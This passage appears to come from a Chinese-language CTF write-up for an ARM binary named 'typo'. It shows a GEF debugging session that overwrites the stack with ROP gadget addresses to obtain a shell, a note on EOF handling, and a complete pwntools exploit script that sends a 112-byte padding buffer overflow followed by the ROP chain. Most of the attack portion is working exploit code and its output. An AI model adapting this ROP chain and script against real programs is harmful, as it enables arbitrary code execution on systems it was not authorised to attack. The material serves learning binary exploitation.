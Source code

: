 ```bash
gef➤  x /10wx $sp+8
0xfffef4f4:	0x00009058	0xfffef684	0x00000001	0x00000006
0xfffef504:	0xfffef7a1	0x00008cb4	0x0000a670	0x00000fb7
0xfffef514:	0x00003915	0x00000000

gef➤  set *(0xfffef4f4)=0x20904
gef➤  set *(0xfffef4f8)=0x0006c384
gef➤  set *(0xfffef4fc)=0x0006c384
gef➤  set *(0xfffef500)=0x000110b4

gef➤  x /10wx $sp+8
0xfffef4f4:	0x00020904	0x0006c384	0x0006c384	0x000110b4
0xfffef504:	0xfffef7a1	0x00008cb4	0x0000a670	0x00000fb7
0xfffef514:	0x00003915	0x00000000

gef➤  b * 0x20904
Breakpoint 2 at 0x20904
gef➤  c

[#0] Id 1, Name: "typo", stopped, reason: BREAKPOINT
[#0] 0x20904 → pop {r0,  r4,  pc}
Breakpoint 2, 0x00020904 in ?? ()

gef➤  c
Continuing.
$ ls
core  exp.py  exp2.py  input  test  test.c  typo  xxx
```

最后猜测可能是通过文件或者管道输入会有EOF，键盘上输入EOF是ctrl+d，EOF并不是一个ascii码，而是linux一个输入完成的标记，我们尝试正常运行程序打字是按ctrl+d：

```bash
grandfather
E.r.r.o.r.

volcano
E.r.r.o.r.

maintain
E.r.r.o.r.

tuition
E.r.r.o.r.
```

程序会一直走，跟我们之间脚本输入的不足110个字符的情景一致。所以估计可能是eof处理的问题，还是需要从标准输入进行利用。在树莓派上安好了pwntools

```python
from pwn import *

io = process("./typo")
io.recv()
io.send("\n")
io.recv()
payload = 'a'*112 + p32(0x20904) + p32(0x6c384)*2 + p32(0x110b4)
io.send(payload)
io.interactive()
```
